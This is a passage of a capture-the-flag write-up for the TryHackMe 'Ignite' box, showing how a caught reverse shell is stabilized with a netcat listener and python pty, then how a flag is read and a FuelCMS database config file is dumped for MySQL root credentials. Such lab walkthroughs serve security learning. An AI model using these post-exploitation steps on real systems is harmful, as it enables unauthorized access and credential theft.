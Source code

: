 And we have the shell in our listener but it's not stable so we'll going through a [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) .

## Shell Stabilization

```
www-data@ubuntu:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ubuntu:/$ export TERM=xterm
export TERM=xterm

www-data@ubuntu:/$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                   
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Ignite]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1337
                               reset
www-data@ubuntu:/$ 

```

Now we have a more stabile shell to work with.
# Privilege Escalation

We can find the first flag :

```
www-data@ubuntu:/home$ cd www-data/
www-data@ubuntu:/home/www-data$ ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt 
6470e394cbf6dab6a91682cc8585059b 
```

And continue with the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) to find the root flag, first thing we check for permissions with `sudo -l` but we don't have access without password .

One of the first things I checked was the database connection configuration file. On this host it was located at /var/www/html/fuel/application/config/database.php. This file contained the password for the root user for MySQL server :

```
www-data@ubuntu:/$ cat /var/www/html/fuel/application/config/database.php
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|       ['dsn']      The full DSN string describe a connection to the database.
|       ['hostname'] The hostname of your database server.
|       ['username'] The username used to connect to the database
```